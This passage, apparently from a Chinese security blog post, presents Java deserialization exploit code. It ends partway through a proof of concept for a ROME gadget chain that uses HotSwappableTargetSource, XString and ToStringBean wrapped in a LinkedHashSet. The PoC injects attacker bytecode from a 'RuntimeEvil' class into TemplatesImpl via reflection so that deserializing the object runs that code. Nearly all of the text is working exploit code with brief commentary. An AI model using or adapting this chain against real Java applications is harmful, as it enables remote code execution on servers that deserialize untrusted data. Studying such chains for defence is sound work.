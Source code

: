 ```java
        java.io.ObjectOutputStream oos = new java.io.ObjectOutputStream(fos);
        oos.writeObject(obj);
        oos.close();
    }
    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException
    {
        java.io.FileInputStream fis = new java.io.FileInputStream(Filename);
        java.io.ObjectInputStream ois = new java.io.ObjectInputStream(fis);
        Object obj = ois.readObject();
        ois.close();
        return obj;
    }
}
```

（jdk8 putVal()并没有jdk7u21 put要hash碰撞进入循环才能执行equals

你甚至可以类似7u21在外面套个HashSet或者LinkedHashSet。。好神金哈哈

套LinkedHashSet神金POC：

```java
package org.exploit.third.rome;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.org.apache.xpath.internal.objects.XString;
import com.sun.syndication.feed.impl.ToStringBean;
import org.springframework.aop.target.HotSwappableTargetSource;

import javax.xml.transform.Templates;
import java.io.IOException;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.LinkedHashSet;

//HashMap.readObject
//HashMap.putVal
//HotSwappableTargetSource.equals
//XString.equals
//ToStringBean.toString
public class ROME_HotSwappable_LinkedHashSet {
    public static void main(String[] args) throws Exception {
        byte[] code1 = Files.readAllBytes(Paths.get("E:\\CODE_COLLECT\\Idea_java_ProTest\\my-yso\\target\\classes\\RuntimeEvil.class"));
        TemplatesImpl templatesClass = new TemplatesImpl();
        Field[] fields = templatesClass.getClass().getDeclaredFields();
        for (Field field : fields) {
            field.setAccessible(true);
            if (field.getName().equals("_bytecodes")) {
                field.set(templatesClass, new byte[][]{code1});
            } else if (field.getName().equals("_name")) {
                field.set(templatesClass, "godown");
            } else if (field.getName().equals("_tfactory")) {
                field.set(templatesClass, new TransformerFactoryImpl());
            }
        }
        TemplatesImpl fakeTemplates = new TemplatesImpl();
        ToStringBean toStringBean = new ToStringBean(Templates.class, fakeTemplates);
        XString xString = new XString(null);
//        xString.equals(toStringBean);
        HotSwappableTargetSource hotSwappableTargetSource_InputObj = new HotSwappableTargetSource(toStringBean);
```